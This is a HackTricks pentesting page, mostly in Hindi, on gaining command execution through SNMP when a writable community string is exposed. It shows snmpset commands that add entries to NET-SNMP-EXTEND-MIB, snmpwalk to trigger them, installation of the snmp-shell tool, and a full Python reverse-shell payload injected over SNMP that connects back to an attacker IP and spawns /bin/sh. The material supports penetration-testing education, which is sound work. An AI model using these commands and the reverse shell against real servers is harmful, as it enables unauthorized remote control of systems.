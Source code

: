 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

# SNMP RCE

यदि व्यवस्थापक डिवाइस या सर्वर पर इसकी डिफ़ॉल्ट कॉन्फ़िगरेशन को नजरअंदाज करता है, तो एक हमलावर SNMP का शोषण कर सकता है। **लिनक्स ऑपरेटिंग सिस्टम पर लिखने की अनुमति (rwcommunity) के साथ SNMP समुदाय का दुरुपयोग करके**, हमलावर सर्वर पर कमांड निष्पादित कर सकता है।

## अतिरिक्त कमांड के साथ सेवाओं का विस्तार करना

SNMP सेवाओं का विस्तार करने और अतिरिक्त कमांड जोड़ने के लिए, "nsExtendObjects" तालिका में नई **पंक्तियाँ जोड़ना** संभव है। यह `snmpset` कमांड का उपयोग करके और आवश्यक पैरामीटर प्रदान करके किया जा सकता है, जिसमें निष्पादन योग्य फ़ाइल का पूर्ण पथ और निष्पादित करने के लिए कमांड शामिल है:
```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```
## कमांड्स को निष्पादित करने के लिए इंजेक्ट करना

SNMP सेवा पर चलाने के लिए कमांड्स इंजेक्ट करने के लिए कॉल किए गए बाइनरी/स्क्रिप्ट का अस्तित्व और निष्पादन योग्य होना आवश्यक है। **`NET-SNMP-EXTEND-MIB`** निष्पादनीय के लिए पूर्ण पथ प्रदान करने की आवश्यकता होती है।

इंजेक्ट किए गए कमांड के निष्पादन की पुष्टि करने के लिए, `snmpwalk` कमांड का उपयोग SNMP सेवा को सूचीबद्ध करने के लिए किया जा सकता है। **आउटपुट कमांड और इसके संबंधित विवरण प्रदर्शित करेगा**, जिसमें पूर्ण पथ शामिल है:
```bash
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```
## Running the Injected Commands

जब **इंजेक्ट किया गया कमांड पढ़ा जाता है, तो इसे निष्पादित किया जाता है**। इस व्यवहार को **`run-on-read()`** के रूप में जाना जाता है। कमांड का निष्पादन snmpwalk पढ़ने के दौरान देखा जा सकता है।

### Gaining Server Shell with SNMP

सर्वर पर नियंत्रण प्राप्त करने और सर्वर शेल प्राप्त करने के लिए, mxrch द्वारा विकसित एक पायथन स्क्रिप्ट का उपयोग [**https://github.com/mxrch/snmp-shell.git**](https://github.com/mxrch/snmp-shell.git) से किया जा सकता है।

वैकल्पिक रूप से, SNMP में एक विशिष्ट कमांड इंजेक्ट करके मैन्युअल रूप से एक रिवर्स शेल बनाया जा सकता है। यह कमांड, जो snmpwalk द्वारा ट्रिगर किया जाता है, हमलावर की मशीन के लिए एक रिवर्स शेल कनेक्शन स्थापित करता है, जिससे पीड़ित मशीन पर नियंत्रण प्राप्त होता है।  
आप इसे चलाने के लिए पूर्व-आवश्यकता स्थापित कर सकते हैं:
```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```
या एक रिवर्स शेल:
```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```
## संदर्भ
* [https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/](https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/)


{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
